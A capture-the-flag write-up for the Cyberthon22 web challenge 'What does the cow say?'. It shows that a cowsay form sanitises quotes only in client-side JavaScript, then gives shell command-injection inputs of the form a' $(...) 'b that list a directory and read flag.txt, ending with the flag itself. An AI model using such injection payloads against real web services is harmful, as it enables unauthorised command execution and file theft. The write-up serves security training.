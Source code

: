 # web/What does the cow say?
### 944 pts, 26 solves

## Description
We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".

Please help us retrieve its contents.

The URL for this challenge:
http://chals.cyberthon22f.ctf.sg:40201

## Solution
Using the default values and hitting submit shows us the command that is fed, `$ echo -e 'Message here' | cowsay -n`

We need to escape the inverted comma `'`, but just typing it and submitting it on the page will "sanitize" the inverted comma to `\x27`

We view the source code and note the js code
```js
function logSubmit(form, event) {
            event.preventDefault();
            const url = "/cowsay";

            let msg = form["msg"].value;
            msg = msg.replace(/\n/g, "\\n").replace(/\'/g, "\\x27");
            msg = `'${msg}'`;
            fetch(url, {
                method : "POST",
                headers:{
                    msg
                },
            }).then(
                response => response.json()
            ).then(
                response => {
                    let output = response["output"]
                    let cmd = response["cmd"]
                    document.getElementById("output").innerText = output;
                    document.getElementById("cmd").innerText = cmd;
                }
            );
        }
```

We now know that it is client-side sanitised, so we can easily change the js to remove the sanitation, by removing the line: `msg = msg.replace(/\n/g, "\\n").replace(/\'/g, "\\x27");}`

We can now run commands with input `a' $(<command here>) 'b`

Doing a bit of exploring, we end up with input `a' $(ls ../../usr/local/flag/here) 'b`, and response `a flag.txt b`

Now, we just need to `cat flag` to get it. We input `a' $(cat ../../usr/local/flag/here/flag.txt) 'b` to get the response `a Cyberthon{1_L0V3_W4GYU} b`

> Cyberthon{1_L0V3_W4GYU}